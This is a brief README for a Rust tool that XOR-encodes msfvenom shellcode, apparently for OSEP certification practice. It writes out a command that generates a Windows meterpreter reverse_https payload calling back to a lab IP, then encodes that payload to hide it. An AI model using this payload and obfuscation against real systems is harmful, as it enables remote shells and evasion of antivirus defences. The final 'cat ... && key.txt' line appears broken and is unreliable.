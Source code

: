 # encoder-decoder

This is my tool for XOR encoding msfvenom payloads for practice in the OSEP. The tool either accepts a premade key or randomly generates (and outputs) a key of equal size to the inputted payload.

Eventually I'll add decoding functionality

[![License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT)

## Installation

**From Source**:

```bash
git clone https://github.com/Raznoo/encoder-decoder.git
cd encoder-decoder
cargo build --release
```

### Encoding

```
msfvenom -p windows/meterpreter/reverse_https LPORT=443 LHOST=192.168.45.155 -f csharp -o raw_payload.cs

encoder-decoder encode -i raw_payload.cs -o encrypted_payload.cs

cat encrypted_payload.cs && key.txt
```

### Decoding
TODO
